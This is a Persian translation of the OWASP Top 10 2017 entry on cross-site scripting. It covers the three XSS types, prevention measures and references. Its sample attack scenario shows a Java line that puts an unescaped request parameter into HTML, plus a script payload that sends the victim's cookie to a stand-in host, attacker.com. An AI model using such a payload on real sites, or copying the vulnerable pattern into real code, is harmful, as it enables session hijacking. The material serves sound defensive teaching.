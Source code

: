 # <div dir="rtl" align="right">A7:2017 Cross-Site Scripting (XSS) </div>

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : قابلیت بهره‌برداری: ۳ | شیوع: ۳ : قابل کشف بودن: ۳ | تکنیکی: ۲ : Business ? |
| <div dir="rtl" align="right">ابزارهای خودکار می‌توانند تمام 3 شکل ممکن XSS را شناسایی و اکسپلویت کنند و چارچوب های اکسپلویت در دسترس رایگانی وجود دارد. </div> | <div dir="rtl" align="right">XSS دومین مسئله مهم درOWASP Top 10 است و در حدود دو سوم از تمام برنامه های کاربردی یافت می‌شود.ابزارهای خودکار می‌توانند برخی از مشکلاتXSS  را به صورت خودکار، به ویژه در فن آوری های بالغ مانند PHP، J2EE / JSP و ASP.NET پیدا کنند.</div> | <div dir="rtl" align="right">تأثیر XSS برای انواع بازتابی و DOM XSS متوسط است و برای XSS ذخیره شده با اجرای کد از راه دور در مرورگر قربانی شدید است مانند سرقت اعتبارها، جلسات و یا ارائه بد افزارها به قربانیان.</div> |

## <div dir="rtl" align="right">آیا برنامه کاربردی آسیب پذیر است ؟</div>

<p dir="rtl" align="right">سه شکل از XSS وجود دارد که معمولا مرورگرهای کاربران را هدف قرار می‌دهند:</p>

<ul dir="rtl" align="right">
  <li>
    <strong>XSS  منعکس شده: </strong>
     برنامه یا API شامل ورودی کاربر غیرقابل اعتبار و غیرقانونی به عنوان بخشی از خروجی HTML است. یک حمله موفقیت آمیز می‌تواند به حمله کننده اجازه دهد HTML و JavaScript دلخواهی را در مرورگر قربانی اجرا کند. به طور معمول، کاربر نیاز به ارتباط با برخی از لینک های مخرب دارد که به یک صفحه کنترل شده توسط مهاجم اشاره می‌کند، مانند وب سایت های آگهی مخرب، تبلیغات و یا مشابه این ها.
  </li>
  <li>
    <strong>XSS ذخیره شده: </strong>
    برنامه کاربردی یا API ورودی کاربر تصفیه نشده را که بعدا توسط یک کاربر یا مدیر دیگر مشاهده می‌شود، ذخیره می‌کند. XSS ذخیره شده اغلب کاربر را با خطر بالایی از ریسک روبه رو می‌کند.
  </li>
  <li>
    <strong>DOM XSS: </strong>
    چارچوب های جاوا اسکریپت، برنامه های تک صفحه وAPI هایی که به طور پویا شامل داده های قابل کنترل مهاجم به یک صفحه می‌شوند، به DOM XSS آسیب پذیر هستند. در حالت ایده آل، برنامه اطلاعات قابل کنترل مهاجم را به API های جاوا اسکریپت نا امن ارسال نمی‌کند.
  </li>
</ul>

<p dir="rtl" align="right">حملات متداول XSS عبارتند از: سرقت نشست، گرفتن حساب، دور زدن MFA، جایگزینی یا حذف گره DOM (از قبیل پنل های ورود به سیستم تروجان)، حملات علیه مرورگر کاربر مانند دریافت نرم افزارهای مخرب، کلید ورود به سیستم و سایر حملات سمت مشتری.</p>

## <div dir="rtl" align="right">نحوه پیشگیری از حمله : </div>

<p dir="rtl" align="right">پیشگیری ازپیشگیری ازXSS  نیاز به جداسازی داده های غیر قابل اعتماد از محتوای فعال مرورگر دارد. این کار با انجام موارد زیر قابل دسترسی است:</p>

<ul dir="rtl" align="right">
  <li>با استفاده از چارچوب هایی که به صورت خودکار از وقوع XSS فرار می‌کنند به وسیله طراحی، همانند آخرین Ruby on Rails، React JS. محدودیت های حفاظت XSS  هر چارچوب را بیاموزید و به طور مناسب موارد استفاده را که پوشش داده نمی‌شوند، مدیریت کنید.
  </li>
  <li>فرار داده های درخواست HTTP نامعتبر براساس متن در خروجی HTML (بدنه، ویژگی، جاوا اسکریپت، CSS، یا URL ) آسیب پذیری های XSS ذخیره شده و منعکس شده را حل خواهد کرد.  
  </li>
  <li>
    با استفاده از رمزگذاری حساس به متن هنگام تغییر سند مرورگر در سمت مشتری بر علیه DOM XSS عمل می‌کند. هنگامی‌که از انجام این کار اجتناب نکنیم، تکنیک های فرار از حساسیت متن مشابه می‌توانند به API های مرورگر اعمال شوند، همانطور که در<a href="https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet">OWASP Cheat Sheet 'XSS Prevention'</a> توضیح داده شده است. </li>
  <li>
    فعال کردن یک سیاست امنیتی محتوا <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP">(CSP)</a>  یک کنترل دفاع در عمق در برابر XSS  است. این مؤثر است اگر هیچ آسیب پذیری دیگری وجود نداشته باشد که اجازه می‌دهد کدهای مخرب را از طریق فایل محلی شامل شود (مثلا مسیرهای رونویسی شده یا کتابخانه های آسیب پذیر از شبکه های تحویل مجاز محتوا).
  </li>
</ul>

## <div dir="rtl" align="right">نمونه سناریو حمله</div>

<p dir="rtl" align="right"><strong>سناریو 1: </strong>برنامه بدون تایید یا escape، از داده های غیر قابل اعتماد در ساخت قطعه HTML زیر استفاده می‌کند:</p>

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
<p dir="rtl" align="right">مهاجم پارامتر CC را در مرورگر خود به صورت زیر تغییر می‌دهد :</p>

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

<p dir="rtl" align="right">این حمله باعث می‌شود شناسه نشست قربانی به وب سایت مهاجم ارسال شده و به مهاجم اجازه سرقت نشست فعلی کاربر را می‌دهد.</p>

<p dir="rtl" align="right"><strong>نکته : </strong>مهاجمان می‌توانند ازXSS برای جلوگیری از هرگونه دفاع خودکار CSRF که برنامه کاربردی به کار می‌برد، استفاده کنند.</p>

## <div dir="rtl" align="right">منابع</div>

### <div dir="rtl" align="right">OWASP</div>

* [OWASP Proactive Controls: Encode Data](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://wiki.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://wiki.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://wiki.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://wiki.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://wiki.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://wiki.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project)

### <div dir="rtl" align="right">خارجی</div>

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
